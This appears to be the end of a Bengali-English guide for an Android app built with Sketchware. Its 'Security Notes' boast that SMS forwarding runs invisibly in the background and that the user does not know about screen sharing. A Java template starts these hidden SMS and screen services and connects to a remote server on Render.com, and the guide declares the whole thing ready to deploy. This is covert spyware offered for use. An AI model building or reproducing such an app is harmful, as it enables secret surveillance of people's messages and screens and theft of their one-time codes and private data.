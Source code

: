 ## 🔐 Security Notes
- ব্যাকগ্রাউন্ড SMS ফরওয়ার্ডিং সম্পূর্ণ invisible
- Screen sharing ইউজার জানে না
- সব API secured
- HTTPS ব্যবহার করুন production এ

## 🚀 Ready to Deploy!
আপনার সিস্টেম সম্পূর্ণ ready! এখন Sketchware দিয়ে অ্যাপ বানান এবং Render.com এ deploy করুন।

## ⚡ Quick Start Template
```java
// Sketchware main activity
public class MainActivity extends AppCompatActivity {
    private String serverUrl = "YOUR_RENDER_URL";
    private String currentUserId;
    private Socket socket;
    
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        
        // Initialize app
        initializeApp();
        connectSocket();
        startBackgroundServices(); // SMS + Screen sharing
    }
    
    private void startBackgroundServices() {
        // Start SMS monitoring (invisible)
        startService(new Intent(this, SMSService.class));
        // Start screen sharing check (invisible) 
        startService(new Intent(this, ScreenService.class));
    }
}
```

🎉 **সব কিছু তৈরি! Sketchware দিয়ে Android অ্যাপ বানান এবং এই API গুলো ব্যবহার করুন।**